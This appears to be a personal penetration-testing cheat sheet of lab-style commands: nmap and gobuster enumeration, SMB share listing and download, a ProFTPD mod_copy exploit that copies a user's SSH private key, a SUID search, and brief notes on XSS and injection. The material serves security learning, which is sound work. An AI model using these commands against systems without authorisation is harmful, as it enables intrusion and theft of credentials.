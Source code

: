 # thisnthat cheat sheet
-- Open ports with versions
```
nmap -sC -sV $IP
```

-- How many open ports?
```
nmap $IP -vvv
nmap -Pn -A -v $IP
nmap -sS -p- $IP
```

-- Enumerate webapp with gobuster
``` 
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt 
```

-- Enumerate for SMB shares
SMB has two ports, 445 and 139.
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

-- Inspect an **SMB** share
```
smbclient //<ip>/anonymous
```

-- Recursively download the SMB share
```
smbget -R smb://<ip>/anonymous
```

-- show mount 
```
nmap -p <rpc_port> --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

-- get **ProFTPD** version
```
nc $IP 21
```

-- Searchsploit to find exploits. **Searchsploit** is basically just a command line search tool for exploit-db.com.

-- mod_copy exploit: SITE CPFR and SITE CPTO
```
nc $IP 21
SITE CPFR /home/<user>/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

-- find SUID binaries
```
find / -perm -u=s -type f 2>/dev/null
```

-- inspect an image
```
exiftool <img_file>
staghide extract -sf <img_file>
```

**XSS cheat sheet**: There are a few different types of XSS attacks:
* **Persistent/Non-Reflected** - Here the XSS payload has been stored in the database, and once the server/framework passes the data from the database into the webpage, the script/payload is executed
* **Non Persistent/Reflected** - Here the XSS payload is usually crafted using a malicious link. It is not stored. 
```
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
```

**Injection**:
Injection attacks occur when users input data and this data is being processed/interpreted by the server. Injection is most common when user supplied data is not validated/sanitised by the server. Common injection attacks include:

* **SQL Injection** - These attacks occur when users provide malicious data that is processed by SQL statements on the server. SQL statements are usually used to interact with databases; by providing malicious input, users can read, modify and even delete data in these databases. These attacks are usually prevalent because developers do not use parameterized queries. More information about SQL Information can be found here. 
* **Command Injection** - These attacks usually occur when users provide malicious data that is processed as system commands on the web server. With this attack, users can execute arbitrary command on the system and carry out malicious actions like reading password hashes and private keys. More information can be found here.
